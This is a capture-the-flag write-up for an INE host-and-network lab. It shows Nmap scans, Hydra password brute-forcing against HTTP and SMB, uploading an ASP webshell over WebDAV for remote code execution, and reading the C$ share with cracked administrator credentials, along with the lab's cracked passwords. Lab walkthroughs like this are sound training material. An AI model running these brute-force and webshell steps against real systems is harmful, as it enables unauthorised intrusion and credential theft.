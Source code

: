 ## Host & Network Penetration Testing: System-Host Based Attacks CTF 1

### Flag 1: User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located. (target1.ine.local)

We start with an Nmap scan on target1.ine.local, discovering some ports open.
```
nmap -sS -Pn -p- -T4 target1.ine.local
```
```
nmap -sS -Pn -sV -p 80,135,139,445,3389,5985,47001 -T4 target1.ine.local
```
After narrowing down the search with Nmap, we are unable to discover anything interesting, so we check the target with a web browser.

Upon connecting, the target site asks for username and password.
Following the hint from the track, we proceed with a brute force attack using Hydra and the wordlist provided.
```
hydra -l bob -P /root/Desktop/wordlists/wordlists/100-common-passwords.txt target1.ine.local http-get /robots.txt
```
Unfortunately, nothing interesting is found, so we proceed with another list, which helps us find the correct password:
```
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get / 
```
```
bob -> password_123321
```
With these credentials, we proceed with folder enumeration using Gobuster:
```
gobuster dir -u http://target1.ine.local/ -w /usr/share/wordlists/dirb/common.txt -U bob -P password_123321
```
The scan reveals a WebDAV server containing the first flag.

***

### Flag 2: Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)

We choose to use Cadaver to upload a webshell, which is useful to explore C: drive as instructed by the track, using the username and password previously discovered.
```
cadaver http://target1.ine.local/webdav/
```
Then we upload the webshell.asp file:
```
put /usr/share/webshells/asp/webshell.asp 
```
We execute it in the browser, gaining remote code execution.

Typing:
```
type c:\flag2.txt
```
allow us to retrieve the second flag.

***

### Flag 3: By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag. (target2.ine.local)

We begin with a generic Nmap scan and another focusing on port 445:
```
nmap -sS -p- -T4 target2.ine.local
```
```
nmap -sS -p445 target2.ine.local --script smb-enum-*
```
The second scan is unproductive, taking too long to complete.
So we proceed with:
```
nmap -sS -p445 target2.ine.local --script smb-enum-shares
```
discovering that there is a share named Shared. We then use Hydra to brute force the SMB service:
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://target2.ine.local/shared
```
We discover the following usernames and passwords
```
rooty -> spongebob
demo -> password1
auditor -> hellokitty
administrator -> pineapple
```
Although shared folder is not useful, we are able to try with C$ folder using administrator credentials
```
smbclient //target2.ine.local/C$/ -U administrator
```
We find the third flag in this folder and download it with:
```
get flag3.txt
```

***

### Flag 4: The Desktop directory might have what you're looking for. Enumerate its contents. (target2.ine.local)

Following the track hint, we navigate to the Desktop directory of the administrator users and discover the fourth flag.
